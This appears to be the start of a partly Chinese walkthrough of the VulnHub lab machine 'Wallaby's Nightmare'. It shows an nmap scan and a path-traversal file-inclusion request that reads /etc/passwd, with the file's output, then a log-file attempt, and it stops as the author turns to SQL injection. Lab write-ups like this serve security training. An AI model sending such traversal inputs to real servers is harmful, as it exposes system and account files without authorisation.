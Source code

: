 # Wallaby's: Nightmare (v1.0.2)

2024-8-x https://www.vulnhub.com/entry/wallabys-nightmare-v102,176/

difficulty: begginer-intermediate

## IP

192.168.10.199

## Scan

Open Port -> 22,80,6667

```
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 6e07fc702098f846e48d2eca3922c7be (RSA)
|   256 994605e7c2bace06c447c84f9f584c86 (ECDSA)
|_  256 4c87714faf1b7c3549ba5826c1dfb84f (ED25519)
80/tcp   open     http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Wallaby's Server
|_http-server-header: Apache/2.4.18 (Ubuntu)
6667/tcp filtered irc
```

先访问 80， 页面底部的 start ctf 存在文件包含， http://192.168.10.199/?page=../../../../../../etc/passwd:

```
root:x:0:0:root:/root:/bin/bash
...
steven?:x:1001:1001::/home/steven?:/bin/bash
ircd:x:1003:1003:,,,:/home/ircd:/bin/bash
<!--This is what we call 'dis-information' in the cyber security world!  Are you learning anything new here 1?-->
```

尝试访问其他文件时, 192.168.10.199/?page=../../../../../../var/log/apache2/access.log 出现提示：

```
buddy.  You must think Wallaby codes like a monkey!  I better get to securing this SQLi though...
(Wallaby caught you trying an LFI, you gotta be sneakier!  Difficulty level has increased.)
```

这时在访问，80 端口已经关闭了。重新扫描，发现端口变成了 60080，应该是 LFI 这里没什么可以利用的地方。看看那个 sqli 吧。
